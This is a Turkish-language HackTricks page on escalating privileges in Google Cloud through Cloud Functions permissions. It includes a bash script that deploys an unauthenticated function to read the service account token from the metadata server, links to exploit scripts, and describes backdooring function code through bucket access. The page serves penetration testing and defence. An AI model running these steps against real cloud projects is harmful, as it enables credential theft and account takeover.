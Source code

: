 # GCP - Cloudfunctions Privesc

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** bizi takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## cloudfunctions

Cloud Functions hakkında daha fazla bilgi:

{% content-ref url="../gcp-services/gcp-cloud-functions-enum.md" %}
[gcp-cloud-functions-enum.md](../gcp-services/gcp-cloud-functions-enum.md)
{% endcontent-ref %}

### `cloudfunctions.functions.create` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

Bu yetkilere sahip bir saldırgan, **keyfi (kötü niyetli) kodla yeni bir Cloud Function oluşturabilir ve ona bir Service Account atayabilir**. Ardından, yetkileri artırmak için metadata'dan Service Account token'ını sızdırabilir.\
Fonksiyonu tetiklemek için bazı yetkilere ihtiyaç duyulabilir.

Bu yöntem için istismar betikleri [burada](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-call.py) ve [burada](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-setIamPolicy.py) bulunabilir ve önceden oluşturulmuş .zip dosyası [burada](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/tree/master/ExploitScripts/CloudFunctions) bulunabilir.

### `cloudfunctions.functions.update` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

Bu yetkilere sahip bir saldırgan, **bir Fonksiyonun kodunu değiştirebilir ve hatta ekli olan hizmet hesabını değiştirebilir** ve token'ı dışarı sızdırma amacı güdebilir.

{% hint style="danger" %}
Cloud functions dağıtmak için, varsayılan compute service account veya imajı oluşturmak için kullanılan service account üzerinde actAs izinlerine de ihtiyacınız olacak.
{% endhint %}

Ekstra yetkiler, 1. versiyon cloudfunctions için `.call` izni veya fonksiyonu tetiklemek için `role/run.invoker` rolü gibi yetkilere ihtiyaç duyulabilir.
```bash
# Create new code
temp_dir=$(mktemp -d)

cat > $temp_dir/main.py <<EOF
import subprocess

def main(request):
cmd = "curl -s -f -H 'Metadata-Flavor: Google' 'http://metadata/computeMetadata/v1/instance/service-accounts/default/token'"
result = subprocess.check_output(cmd, shell=True, text=True)
return result
EOF

echo "" > $temp_dir/requirements.txt

zip -r $temp_dir/function.zip $temp_dir/main.py $temp_dir/requirements.txt

# Update code
gcloud functions deploy <cloudfunction-name> \
--runtime python312 \
--source $temp_dir \
--entry-point main \
--service-account <sa>@$PROJECT_ID.iam.gserviceaccount.com \
--trigger-http \
--allow-unauthenticated

# Get SA token calling the new function code
gcloud functions call <cloudfunction-name>
```
{% hint style="danger" %}
Eğer `Permission 'run.services.setIamPolicy' denied on resource...` hatasını alıyorsanız, bu `--allow-unauthenticated` parametresini kullandığınız ve yeterli izinlerinizin olmadığı anlamına gelir.
{% endhint %}

Bu yöntem için istismar betiği [burada](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.update.py) bulunabilir.

### `cloudfunctions.functions.sourceCodeSet`

Bu izinle, bir **dosyayı bir fonksiyon bucket'ına yüklemek için imzalı bir URL alabilirsiniz (ancak fonksiyonun kodu değişmeyecek, yine de güncellemeniz gerekecek)**
```bash
# Generate the URL
curl -X POST https://cloudfunctions.googleapis.com/v2/projects/{project-id}/locations/{location}/functions:generateUploadUrl \
-H "Authorization: Bearer $(gcloud auth application-default print-access-token)" \
-H "Content-Type: application/json" \
-d '{}'
```
{% endcode %}

Saldırganlar açısından bu iznin ne kadar faydalı olacağından pek emin değilim, ama bilmekte fayda var.

### `cloudfunctions.functions.setIamPolicy` , `iam.serviceAccounts.actAs`

Önceki **`.update`** veya **`.create`** ayrıcalıklarından herhangi birini kendinize vererek yükseltme yapabilirsiniz.

### `cloudfunctions.functions.update`

Sadece **`cloudfunctions`** izinlerine sahip olmak, **`iam.serviceAccounts.actAs`** olmadan fonksiyonu güncelleyemezsiniz, BU YÜKSELTME İÇİN GEÇERLİ DEĞİLDİR.

### Bucket üzerinde Okuma & Yazma Erişimi

Bucket üzerinde okuma ve yazma erişiminiz varsa, kodda değişiklikleri izleyebilir ve bucket'ta bir **güncelleme olduğunda yeni kodunuzu kendi kodunuzla güncelleyebilirsiniz**; böylece Cloud Function'ın yeni versiyonu gönderilen arka kapılı kodla çalıştırılacaktır.

Saldırı hakkında daha fazla bilgi için kontrol edebilirsiniz:

{% content-ref url="gcp-storage-privesc.md" %}
[gcp-storage-privesc.md](gcp-storage-privesc.md)
{% endcontent-ref %}

Ancak, bunu üçüncü taraf Cloud Functions'ı önceden tehlikeye atmak için kullanamazsınız çünkü bucket'ı kendi hesabınızda oluşturup, dış projenin üzerine yazabilmesi için kamu izinleri verirseniz, aşağıdaki hatayı alırsınız:

<figure><img src="../../../.gitbook/assets/image (1).png" alt="" width="304"><figcaption></figcaption></figure>

{% hint style="danger" %}
Ancak, bu DoS saldırıları için kullanılabilir.
{% endhint %}

### Artifact Registry üzerinde Okuma & Yazma Erişimi

Bir Cloud Function oluşturulduğunda, projeye yeni bir docker imajı Artifact Registry'ye yüklenir. İmajı yeni bir imajla değiştirmeyi denedim, hatta mevcut imajı (ve `cache` imajını) silmeyi denedim ve hiçbir şey değişmedi, cloud function çalışmaya devam etti. Bu nedenle, belki de **bucket ile bir Yarış Koşulu saldırısını kötüye kullanmak mümkün olabilir** ama **sadece saklanan imajı değiştirerek Cloud Function'ı tehlikeye atmak mümkün değildir**.

## Referanslar

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
